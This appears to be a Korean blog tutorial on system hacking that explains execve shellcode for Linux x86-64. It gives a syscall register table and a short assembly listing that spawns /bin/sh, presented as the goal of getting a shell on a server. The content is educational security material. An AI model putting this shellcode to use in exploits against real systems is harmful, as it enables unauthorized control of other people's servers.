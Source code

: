 <br>


![](https://velog.velcdn.com/images/younghyun/post/9381524a-22ee-4b77-be0f-cf66b986b8fd/image.png)

<br>

### 셸을 획득하면 시스템을 제어할 수 있게 되므로, 통상적으로 셸 획득을 시스템 해킹의 성공으로 여긴다.

<br>

### `execve` 셸코드는 임의의 프로그램을 실행하는 셸코드인데, 이를 이용하면 서버의 셸을 획득할 수 있다. 다른 언급없이 셸코드라고 하면 이를 의미하는 경우가 많다.

<br>

### `execve` 셸코드는 execve 시스템콜만으로 구성된다.

<br>

|syscall|rax|arg0 (rdi)|arg1 (rsi)|arg2 (rdx)|
|:---:|:---:|:---:|:---:|:---:|
|execve|0x3b|const char *filename|const char *const *argv|const char *const *envp
|

<br>

### 여기서 `argv`는 실행파일에 넘겨줄 인자, `envp`는 환경변수이다. 우리는 sh만 실행하면 되므로 다른 값들은 전부 null로 설정해도 된다.

<br>

### 리눅스에선 기본 실행 프로그램들이 /bin 디렉터리에 있으므로 우리가 실행할 sh도 여기에 저장되어 있다.

<br>

### 따라서 우리는 execve("/bin/sh", null, null)을 실행하는 것을 목표로 셸 코드를 작성하면 된다.

<br>

```
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

<br>
<br>
